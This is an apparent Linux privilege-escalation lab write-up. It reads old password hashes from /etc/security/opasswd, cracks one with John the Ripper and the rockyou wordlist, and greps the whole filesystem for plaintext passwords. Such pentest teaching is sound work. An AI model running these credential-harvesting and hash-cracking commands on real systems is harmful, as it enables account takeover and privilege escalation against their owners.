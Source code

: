 ```shell
user@pwn:~$ passwd user
Changing password for user.
Current password: # p@$$w0rd!
New password: # p@$$w321
Retype new password: # p@$$w321
passwd: password updated successfully
```

If we read `/etc/security/opasswd` file now:

```shell
user@pwn:~$ sudo cat /etc/security/opasswd
user:1000:3:$1$xxxxxxxxxxxxxxxxxxxxxxx,$1$xxxxxxxxxxxxxxxxxxx,$1$xxxxxxxxxxxxxxxxxxxxxxxx
```

Each of these hashes belongs to a different password.

I'm going to copy the hash of the last password hash and copy it to my adversary host:

```shell
❯ echo '$1$xxxxxxxxxxxxxxxxxxxxxx/' > hash.txt
```

Now I'm going to use `John` to attempt to crack the password hash using a dictionary attack:

```shell
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
<SNIP>
p@$$w0rd!     (?)
<SNIP>

❯ john hash.txt --show
?:p@$$w0rd!

1 password hash cracked, 0 left
```

As we can see the old password `p@$$w0rd!` was cracked. If this password was still in use by another user or if the administrator disabled this PAM functionality but forgot that the previous passwords were stored in the `/etc/security/opasswd` file and he/she decided to use an old password for a higher privileged user. We could attempt to switch to that user or at least try to log in as another user with the password that just cracked. Again this is just an example. 

At this step, I recommend that we restore a snapshot.

# Privilege Escalation via Plain Text Files Containing Passwords

Filter for the string password (case insensitive) in all file types and add some color:

```shell
grep --color=auto -rnw '/' -ie 'PASSWORD' --color=always 2>/dev/null
```

Find files and filter for the string password while being case insensitive:

```shell
find . -type f -exec grep -io -I "password" {} /dev/null \;
```
